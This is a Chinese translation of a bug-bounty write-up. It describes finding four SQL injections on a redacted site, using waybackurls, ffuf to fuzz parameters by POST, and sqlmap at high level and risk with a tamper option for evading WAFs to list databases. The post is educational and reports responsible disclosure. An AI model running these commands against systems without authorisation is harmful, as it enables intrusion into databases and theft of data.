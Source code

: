 # 我如何在几分钟内用 FFUF 和 Sqlmap 找到多个 SQL 注入

> 原文：<https://infosecwriteups.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-2824cd4dfab?source=collection_archive---------0----------------------->

大家好，希望你们没事。我们今天的旅程是关于我如何在短短几分钟内用一种很酷的技术在一个 bug bounty 程序中发现多个 SQL 注入。让我们开始，称我们的目标为 redacted.org。

![](img/23b3c739790ab1702fe0cc790c091ce2.png)

# 枚举阶段:

我开始用 [waybackurls](https://github.com/tomnomnom/waybackurls) 工具查看目标的 web 档案，我发现了一堆端点，但是我观察到了很多 PHP 文件！！嗯，也许我会在其中一个中找到 SQL 注入，好的，让我们过滤输出。所以我的命令是:

```
waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt
```

![](img/bbaa418e14381db40beb4d5881fbca62.png)

uro 是一个用来删除重复网址的工具

好了，我们有很多 PHP 文件，让我们看看其中的一些

![](img/88a7350630c5e764e54d6cad666c771c.png)

Mmmmmm，PHP 文件名看起来很有趣，我想它可以帮助我找到参数。好了，让我们在*得到*之后，做一些尝试来整理名字，以制作一个在端点中暴力破解的参数列表。让我们 goooo

# 获取参数:

首先，我们只需要 grep 包含 *get* 字符串的行，并删除它之前的所有内容，使其唯一以避免重复，因此我们的命令将是:

```
$ **cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u**
```

![](img/e62ef4b4941abf1aa123f84c5a8183c2.png)

好极了。！我做到了，但是我们应该去掉**。php** 字符串来制作一个列表，所以我只是将该行添加到最后一个命令 ***cut -f1 -d " . "***

![](img/aa64a02452b09cc067bfea70bb770c2e.png)

好了，我们差不多完成了，我注意到所有的字符串都包含了两个单词，我不知道哪一个是参数，所以我们把它分开吧！！！老实说，我不知道怎么做，所以我做了一些关于这个操作的搜索，直到我看到这个，我找到了我想要的！！附加命令将是

```
**sed 's/[A-Z]\+/\n&/g'**
```

![](img/0ccbce181317d3e124af108a44672914.png)

尼利斯。！好的，但是我认为大部分参数是小写的，而不是大写的，所以我将保持大写参数，并将其转换为小写，我将测试这两个参数；)

![](img/488b0aa74b6a489abc5ec9199c61ff79.png)

现在我们有了两个参数列表，让我们用 FFUF 测试它，首先，我将 grep endpoint 并使用它测试所有参数，我将首先使用以下命令尝试小写参数:

```
ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"
```

但可悲的是我一无所获

老实说，我在那之后变得沮丧，但我的脑海中出现了一个想法，将请求方法改为帖子怎么样！我迅速找到我的 VPS 并改变了方法，

```
ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"
```

结果我得到了**承诺& id** 参数

好了，现在转到端点，用 burp 拦截请求，更改请求方法，添加参数，并将其复制到 txt 文件，以便在其上运行 sqlmap。

# 剥削:

该命令将是:

```
**sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast**
```

— — — — — — — — — — — — — — — — — — — — — — — — — —

```
--level 5 --> Level of tests to perform.
--risk 3 --> Risk of tests to perform
--dbms --> back-end DBMS value
--no-cast --> to avoid use cast-alike statements during data fetching
--tamber --> to evade filters and WAF’s
"--hostname --current-user --current-db --dbs" --> to retrieve info about the database
```

![](img/8e786735696732295ff5c2ed694fb824.png)

第一名 SQLI

我做到了！！！！！！！

现在让我们用其他端点来尝试这种方式；)

我选择了一些端点并使用了相同的 FFUF 命令，当然还有 POST 方法。

答对了。！我从列表中找到了三个具有有效参数的端点。

第二个 SQLI:带有 **id** 参数的 ws_delComment.php

![](img/c1b1337f2c4441bc3ffbbd998f3882e5.png)

第二名 SQLI

第三名:getTargets.php 与 SQLI**目标**参数

![](img/bf1d8b1ec8a7196110c55cbae2e4d37d.png)

第三届 SQLI

第四个:带有**列表**参数的 mailing_lists.php

![](img/0e1ac923113f972c4ef0907e25d232d9.png)

第四名 SQLI

非常好，我们得到了四次 SQL 注入:)

我向安全团队报告了所有 SQL 注入，他们批准了，他们正在努力解决问题！！

感谢阅读，干杯！

如有任何问题或反馈，在 [**Twitter**](https://twitter.com/0xmahmoudJo0) 上 dm 我。